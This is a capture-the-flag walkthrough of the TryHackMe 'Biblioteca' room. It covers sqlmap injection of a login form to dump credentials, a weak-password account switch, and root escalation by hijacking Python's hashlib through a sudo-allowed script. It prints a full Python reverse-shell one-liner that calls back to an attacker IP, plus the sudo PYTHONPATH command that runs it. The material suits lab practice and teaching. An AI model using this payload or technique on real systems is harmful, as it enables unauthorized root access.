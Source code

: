```yaml
---
title: "Biblioteca - TryHackMe"
date: 2022-03-22T10:45:50-03:00
---
```


https://tryhackme.com/room/biblioteca

## **User Flag**

First, we start by enumerating the ports and services.  
In the print below I have already set the ports to 22 and 8000 because I found out that they were open in a regular scan without any nmap flags.

![biblioteca](/biblioteca/PortScan.png)

\
I access the website and see that there is a login page. I try to create a user in the Sign-Up link to see what it looks like in there, but there is nothing interesting there.

![biblioteca](/biblioteca/Port8000.png)

![biblioteca](/biblioteca/UserLoggedIn.png)

\
Since the first page is a login page, I quickly try some SQL Injection with sqlmap, first by intercepting the POST request and then using it with the sqlmap command.

![biblioteca](/biblioteca/RequestIntercepted.png)

![biblioteca](/biblioteca/sqlmap.png)

\
We can observe that the parameter username is vulnerable so I start to retrieve informations from the database. You can see in the image above that the Database is called website.  

As this is a TryHackMe host probably the database is small, so to gain some time I use the flag –dump-all to dump everything from the website database.

![biblioteca](/biblioteca/DumpandoInfos.png)

\
Here I got a username and password and immediately try these credentials in SSH.

![biblioteca](/biblioteca/ssh-login.png)

\
Trying to find the flag, we see that it is in the hazel home and we don’t have permissions to read it. So, we need to find some way to login as hazel.

![biblioteca](/biblioteca/PermissaoNegada.png)

\
In this part I got stuck for a few minutes and I need to look at the hint. The hint was “Weak password”, so I just tried a simple password combination and “hazel”, same as the username, worked it.

Now logged as hazel, we just need to *cat* the user.txt and get the first flag.

![biblioteca](/biblioteca/flag-user.png)

## **Root Flag**

The first thing I do when I need to privilege escalation is to check the permissions with sudo and if there is something interesting in this user.

![biblioteca](/biblioteca/sudo-l.png)

\
We see that hazel can use the command python3 with root permissions in the file *hasher.py*.

Taking a look at this file, we see that there is a library being used: *hashlib*.

![biblioteca](/biblioteca/hasherPython.png)

\
Here we can do something that is called Python Library Hijacking. Basically, we just need to modify the library file and insert some malicious payload to get this payload executed by root.

This [article](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/) explains this exploration in a very clear way.

Since we don’t have permission to edit the current library file, we copied it to the /tmp directory.

![biblioteca](/biblioteca/libtmp.png)

\
Now we can edit it and insert a python reverse shell payload with our tun0 address.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.117.185",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![biblioteca](/biblioteca/payloadLib.png)

\
We need to execute the python file with the PYTHONPATH argument, to tell where python will search for the libraries included in the hasher.py. When we execute the hasher.py, it will call the library hashlib and since there is this playload in the library file, the reverse shell will be popped in our listener.

Remember to set your listener before executing the command.

```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

![biblioteca](/biblioteca/comando.png)

\
Finally we obtain our reverse shell and just cat root.txt for the second flag.

![biblioteca](/biblioteca/flag-root.png)

See ya =).